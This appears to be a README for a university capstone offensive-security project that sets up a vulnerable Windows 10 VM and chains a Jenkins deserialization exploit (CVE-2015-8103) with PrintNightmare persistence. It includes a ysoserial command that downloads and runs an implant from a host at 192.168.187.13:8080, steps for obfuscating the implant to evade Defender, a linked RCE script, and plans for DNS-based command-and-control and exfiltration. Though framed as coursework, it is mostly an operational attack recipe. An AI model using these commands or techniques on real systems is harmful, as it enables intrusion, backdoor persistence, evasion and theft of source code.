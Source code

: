 
# CS 564 Capstone Project
- Team Cryptid

# Info
- Target             : Windows 10
- Initial Compromise : Java Deserialization in Jenkins <= 1.638 (CVE-2015-8103)
- Persistence        : Use Printer Nightmare (CVE-2021-34527) to create backdoor admin account
- Purpose            : Exfiltrate source/modify source code for supply chain attack

## Setup vulnerable windows VM
- Install Windows 10 VM
- Disable Windows firewall
- Set the following registry values at `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint`:
    - RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    - NoWarningNoElevationOnInstall                 REG_DWORD    0x1
- Donwload and install JDK 11 from https://aka.ms/download-jdk/microsoft-jdk-11.0.22-windows-x64.msi
    - Make sure to enable the option to add `JAVA_HOME` to the PATH
    - You can run `java --version` in the Windows Command prompt to see if it installed properly
- Download vulnerable Jenkins version from https://get.jenkins.io/war/1.625/
- To run Jenkins, execute `java -jar /path/to/jenkins.war`
- Now Jenkins should be running on port 8080

## Building the Implant
- `cd` into the `implant/` directory and run `cl implant.c /Os /Fe:implant.exe /Zi`
- Run the Alcatraz obfuscator on the implant (https://github.com/weak1337/Alcatraz)
    - Note: Do this in a VM to be safe since Defender flags Alcatraz as malware.
    - You will need to copy all of the geneated files over(`.pdb, .ilk, .exe` etc...)
    - In Alcatraz obfuscate all functions, and ensure entrypoint obfuscation is checked
    - This produces `implant.obfs.exe`, which is the final version

## Running the Exploit
- Generate serialized java payload: https://github.com/frohoff/ysoserial
    - `wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar`
    - Example payload that downloads an implant from 192.168.187.13:8080 and executes it:
    - `java -jar ysoserial-all.jar CommonsCollections7 "curl 192.168.187.13:8080/implant.exe --output implant.exe && implant.exe" > payload`
- Python exploit script:
    - https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py
- Run `python exploit.py [IP] [PORT] /path/to/payload`
    - Might need to run a few times to get the RCE to work
- Other Jenkins vulns here:
    - https://github.com/gquere/pwn_jenkins

## TODO
- Max size for file writes is 100 Kb - increase this?

## Future Improvements
- Use HTTPS rather than HTTP
    - Don't need to implement encryption ourselves
- Do C2 over DNS and exfil over HTTPS instead (synchronization issues)
    - Much higher exfiltration bandwidth
- Write a custom packer to make reversing even harder
- Use a custom payload for printer nightmare
    - The built-in payload is flagged when host is connected to the internet
- Delete binary after exit
    - Could be done via the backdoor
